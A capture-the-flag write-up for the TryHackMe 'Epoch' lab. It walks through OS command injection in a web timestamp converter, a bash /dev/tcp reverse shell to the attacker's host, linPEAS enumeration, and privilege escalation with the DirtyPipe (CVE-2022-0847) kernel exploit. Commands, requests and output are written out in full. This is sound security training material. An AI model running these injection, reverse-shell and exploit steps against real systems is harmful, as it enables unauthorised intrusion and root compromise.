


### Level: **_Easy_**


#### Introduction


Be honest, you have _always_ wanted an online tool that could help you convert UNIX dates and timestamps! **Wait... it doesn't need to be online, you say?** Are you telling me there is a command-line [Linux](https://de.wikipedia.org/wiki/Linux) program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!


---


#### Table of Content


1. [Level: Easy](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#level-easy)

   1. [Introduction](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#introduction)

   2. [Table of Content](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#table-of-content)

   3. [Reconnaissance](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#reconnaissance)

      1. [Preparation](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#preparation)
      2. [RUSTSCAN](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#rustscan)
      3. [BURPSUITE / Visite Site / Port: 80](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#burpsuite-visite-site-port-80)

   4. [Enumeration](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#enumeration)

      1. [FFuF](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#ffuf)

   5. [Exploitation](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#exploitation)

      1. [COMMAND INJECTION](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#command-injection)
      2. [GET-REQUEST](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#get-request)
      3. [RESPONSE](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#response)

   6. [Discovery](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#discovery)

      1. [Let's search for the flag](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#let-s-search-for-the-flag)
      2. [BURPSUITE - INTRUDER](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#burpsuite-intruder)

   7. [Exploitation](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#exploitation)

      1. [REVERSE SHELL - NETCAT](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#reverse-shell-netcat)

   8. [Discovery](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#discovery)

      1. [linPEAS](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#linpeas)

   9. [Privilege Escalation](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#privilege-escalation)

      1. [linPEAS findings](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#linpeas-findings)
      2. [DirtyPipe - CVE-2022-0847](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#dirtypipe-cve-2022-0847)
      3. [ROOT ACCESS](https://salucci.ch/2023/06/08/ctf-tryhackme-epoch/#root-access)


---


#### Reconnaissance


##### Preparation


```
# Make directory to work
<strong>mkdir Epoch
cd Epoch
mkdir scans</strong>
```


---


##### RUSTSCAN


```
<strong>sudo rustscan -a 10.10.117.183 --ulimit 5000 -- -oA scans/ -sC -sV --script vuln</strong>

Open 10.10.117.183:<strong>22</strong>
Open 10.10.117.183:<strong>80</strong>
PORT   STATE SERVICE REASON         VERSION
<strong>22/tcp</strong> open  <strong>ssh</strong>     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
<strong>80/tcp</strong> open  <strong>http</strong>    syn-ack ttl 62
|_http-litespeed-sourcecode-download: Page: /index.php was not found. Try with an existing file.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| <strong>http-csrf:</strong>
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.117.183
|   <strong>Found the following possible CSRF</strong> <strong>vulnerabilities:</strong>
|
|     <strong>Path: http://10.10.117.183:80/</strong>
|     <strong>Form id:</strong>
|_    <strong>Form action: /</strong>
```


| Port | Description                           |
| ---- | ------------------------------------- |
| 22   | SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.4) |
| 80   | Webserver HTTP                        |

What do we have


##### BURPSUITE / Visite Site / Port: 80


```
<strong>=== Visit Site</strong>

GET / HTTP/1.1
Host: 10.10.117.183
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<strong>
=== Whoami Command</strong>

GET /?epoch=whoami HTTP/1.1
Host: 10.10.117.183
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.117.183/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

---

HTTP/1.1 200 OK
Date: Wed, 07 Jun 2023 18:32:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1203
Connection: close

<!DOCTYPE html>

<head>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css"
        integrity="sha384-JcKb8q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP+VmmDGMN5t9UJ0Z" crossorigin="anonymous">
    <style>
        body,
        html {
            height: 100%;
        }
    </style>
</head>

<body>
    <div class="container h-100">
        <div class="row mt-5">
            <div class="col-12 mb-4">
                <h3 class="text-center">Epoch to UTC convertor ⏳</h3>
            </div>
            <form class="col-6 mx-auto" action="/">
                <div class=" input-group">
                    <input name="epoch" value="whoami" type="text" class="form-control" placeholder="Epoch"
                        aria-label="Epoch" aria-describedby="basic-addon2" required>
                    <div class="input-group-append">
                        <button class="btn btn-outline-secondary" type="submit">Convert</button>
                    </div>
                </div>
            </form>
            <div class="col-9 mt-4 mx-auto">
                <pre>exit status 1</pre>
            </div>
        </div>
    </div>
</body>

</html>
```


---





---


#### Enumeration


##### FFuF


```
<strong>ffuf -u "http://10.10.117.183/FUZZ" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -c -s -recursion</strong>

< Empty >
```


---


#### Exploitation


##### COMMAND INJECTION


- 
- [OWASP command injection](https://owasp.org/www-community/attacks/Command_Injection)
- 


```
# Some basic command injections
< Enter a epoch time >
<strong>1686164509</strong>
== Wed Jun  7 19:01:49 UTC 2023

< Now let's enter the same epoch time and a command >
<strong>1686164509; whoami</strong>
```


##### GET-REQUEST


```
GET /?epoch=<strong>1686164509%3B+whoami</strong> HTTP/1.1
Host: 10.10.117.183
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.117.183/?epoch=1686164509%3B+whoami
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```


---


##### RESPONSE


```
Wed Jun  7 19:01:49 UTC 2023 (Epoch Time)
<strong>challenge</strong> (whoami)
```


---


#### Discovery


##### Let's search for the flag


```
<strong>1686164509; ls -la</strong>

Wed Jun  7 19:01:49 UTC 2023
total 13772
drwxr-xr-x 1 root root     4096 Mar  2  2022 .
drwxr-xr-x 1 root root     4096 Mar  2  2022 ..
-rw-r--r-- 1 root root      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root     3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 root root      807 Feb 25  2020 .profile
-rw-rw-r-- 1 root root      236 Mar  2  2022 go.mod
-rw-rw-r-- 1 root root    52843 Mar  2  2022 go.sum
-rwxr-xr-x 1 root root 14014363 Mar  2  2022 main
-rw-rw-r-- 1 root root     1164 Mar  2  2022 main.go
drwxrwxr-x 1 root root     4096 Mar  2  2022 views
```


---


```
<strong>1686164509; pwd</strong>

Wed Jun  7 19:01:49 UTC 2023
/home/challenge
```


---


##### BURPSUITE - INTRUDER


```
# Let's fire up <strong>BurpSuite - Intruder</strong>
< Send the GET-REQUEST to Intruder >

GET /?epoch=1686164509%3B+pwd HTTP/1.1
Host: 10.10.117.183
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.117.183/?epoch=1686164509%3B+ls+-la
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

# Let's get the payload ready
< Select <strong>pwd</strong> >
< Press the button <strong>[Add §]</strong> >

# GET-REQUEST should now look like this
GET /?epoch=1686164509%3B+<strong>§pwd§</strong> HTTP/1.1
Host: 10.10.117.183
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.117.183/?epoch=1686164509%3B+ls+-la
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

# In the Intruder go to <strong>Payloads</strong>
< Under Payload settings select Load ... >

# Get my wordlist on GitHub!
< Press <strong>Start attack</strong> >
```


---


[My GitHub Wordlist](https://github.com/trustinveritas/pentest-project-site/blob/main/COMMAND-INJECTION/WORDLIST-simple-linux-enumeration-for-commandinjection.txt)


---





---


#### Exploitation


##### REVERSE SHELL - NETCAT


```
# Let's get ourselves a bash reverse shell

< Create a NETCAT LISTENER >
<strong>sudo rlwrap nc -lvnp 4444</strong>

< Get a <strong>bash -i</strong> shell >
<a rel="noreferrer noopener" href="https://www.revshells.com/" target="_blank"><strong>https://www.revshells.com/</strong></a>

< Copy & Paste the code >

# Should look like this with your IP & PORT
<strong>1686164509; /bin/bash -i >& /dev/tcp/10.11.8.178/4444 0>&1</strong>

< Execute >

listening on [any] 4444 ...
<strong>connect to [10.11.8.178] from (UNKNOWN) [10.10.117.183] 40476</strong>
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$
```


---


#### Discovery


##### linPEAS


```
# On ATTACKER Machine make a <strong>Simple Python HTTP Server</strong> to host linpeas.sh
<strong>sudo python3 -m http.server 80</strong>
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

# On VICTIM Machine download the script
<strong>cd /tmp</strong>
<strong>wget http://10.11.8.178/linpeas.sh</strong>

# Make script executable
<strong>chmod +x linpeas.sh</strong>

# Execute it!
<strong>./linpeas.sh</strong>
```


---


#### Privilege Escalation


##### linPEAS findings


```
╔══════════╣ <strong>Environment</strong>
╚ Any private information inside environment variables?
HISTFILESIZE=0
HOSTNAME=e7c1352e71ec
SHLVL=3
HOME=/home/challenge
OLDPWD=/home/challenge
_=./linpeas.sh
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HISTSIZE=0
LS_COLORS=
PWD=/tmp
HISTFILE=/dev/null
GOLANG_VERSION=1.15.7
<strong>FLAG=flag{7da6c7debd40bd611560c13d8149b647}</strong>

╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

<strong>[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: [ ubuntu=(20.04|21.04) ],debian=11
   Download URL: https://haxx.in/files/dirtypipez.c</strong>

╔══════════╣ Container related tools present (if any):
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ <strong>Is this a container?</strong> ........... <strong>docker</strong>
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details
═╣ Am I inside Docker group ....... No
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found
═╣ Vulnerable to CVE-2019-5736 .... Not Found
═╣ Vulnerable to CVE-2019-13139 ... Not Found
═╣ <strong>Rootless Docker?</strong> ............... <strong>No</strong>

══╣ <strong>Breakout via mounts</strong>
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts
<strong><code>═╣ /proc mounted? ................. Yes</code></strong>
<strong>!! DANGER CONFIG CAN BE EXPLOITET !!</strong>
═╣ /dev mounted? .................. No
═╣ Run ushare ..................... No
═╣ release_agent breakout 1........ Yes
═╣ release_agent breakout 2........ No
═╣ core_pattern breakout .......... No
═╣ binfmt_misc breakout ........... No
═╣ uevent_helper breakout ......... No
═╣ is modprobe present ............ No
═╣ DoS via panic_on_oom ........... No
═╣ DoS via panic_sys_fs ........... No
═╣ DoS via sysreq_trigger_dos ..... No
═╣ /proc/config.gz readable ....... No
═╣ /proc/sched_debug readable ..... No
═╣ /proc/*/mountinfo readable ..... No
═╣ /sys/kernel/security present ... Yes
═╣ /sys/kernel/security writable .. No

══════════════════════╣ <strong>Files with Interesting Permissions</strong> ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ <strong>SUID - Check easy privesc, exploits and write perms</strong>
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 84K May 28  2020 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 <strong>root root</strong> 39K Jul 21  2020 <strong>/usr/bin/umount</strong>  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 67K May 28  2020 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 87K May 28  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44K May 28  2020 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 52K May 28  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 67K Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root 55K Jul 21  2020 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
```


---


| Findings                                                | Exploit                                    |
| ------------------------------------------------------- | ------------------------------------------ |
| **Executing Linux Exploit Suggester**                   | **\[CVE-2022-0847] DirtyPipe**             |
| **Breakout via mounts**                                 | **`/proc mounted? ................. Yes`** |
| **SUID - Check easy privesc, exploits and write perms** | **/usr/bin/umount**                        |

Privilege Escalation to root


---


```
# Since the machine has /proc mounted and linPeas suggest us a <strong>KERNEL EXPLOIT (DirtyPipe)</strong>

We should have impact with that exploit!
```


---


##### DirtyPipe - CVE-2022-0847


[Detailed explanation to the exploit](https://www.youtube.com/watch?v=af0PGYaqIWA)


[Download Exploit](https://haxx.in/files/dirtypipez.c)


---


```
# Let's start!
< Start a <strong>simple HTTP server</strong> to Host the exploit file >
<strong>sudo python3 -m http.server 80</strong>

# Download the KERNEL exploit file
<strong>wget http://10.11.8.178/dirtypipez.c</strong>

# Compile the file
<strong>gcc dirtypipez.c -o DirtyCow</strong>

# Make it executable
<strong>chmod +x DirtyCow</strong>

# Exploit the Kernel!
<strong><em>Usage: ./DirtyCow SUID</em></strong>

<strong>./DirtyCow /usr/bin/umount</strong>

<strong>whoami</strong>
root
```


---


##### ROOT ACCESS


```
# Make root shell stable
<strong>/usr/bin/script -qc /bin/bash /dev/null</strong>
```


> Exploit to root is not needed. But it was nice to use a kernel exploit anyways!
>
> trustinveritas


